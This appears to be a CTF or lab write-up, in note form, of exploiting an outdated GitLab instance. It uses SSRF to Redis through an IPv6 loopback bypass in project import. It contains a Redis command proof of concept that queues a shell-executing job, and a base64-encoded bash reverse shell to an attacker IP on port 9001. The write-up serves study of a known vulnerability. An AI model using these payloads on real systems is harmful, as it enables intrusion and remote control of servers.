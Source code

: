 ![[Pasted image 20210516094300.png]]

## >> Created a User:

![[Pasted image 20210516094518.png]]

## >> Enumeration:

### Visiting the Help Page of Gitlab we were able to get the version of Gitlab:

![[Pasted image 20210516095027.png]]

### It already looks like a very old version.

### Searching for exploits on the web some intersting blog showed up-
### 1.https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/
### 2.https://github.com/jas502n/gitlab-SSRF-redis-RCE

# >>Exploitation-
### Tried to ping our box-
![[Pasted image 20210516112151.png]]

### Netcat-

![[Pasted image 20210516112353.png]]

## >>SSRF+Redish RCE-
### 1.gitlab vuln: >>import project>> Repo by URL >> Git repository URL (ipv6 Bypass block url)
### 2.git://[0:0:0:0:0:ffff:127.0.0.1]:6379/test/ssrf.git
![[Pasted image 20210516113209.png]]

### 3.Capture the request using burp-

![[Pasted image 20210516114506.png]]

### 4.Modify the request after .git to get a reverse shell(Base 64 encode the shell to bypass badchar)
### 5.POC -
```bash
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|setsid python /tmp/nc.py xx.xx.xx.xx 1234 \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
 exec
```

### 6.`echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTExLzkwMDEgMD4mMQ== | base64 -d | bash`      [Payload: bash  -i >& /dev/tcp/10.10.14.111/9001 0>&1]

![[Pasted image 20210516115424.png]]

![[Pasted image 20210516115528.png]]

![[Pasted image 20210516115558.png]]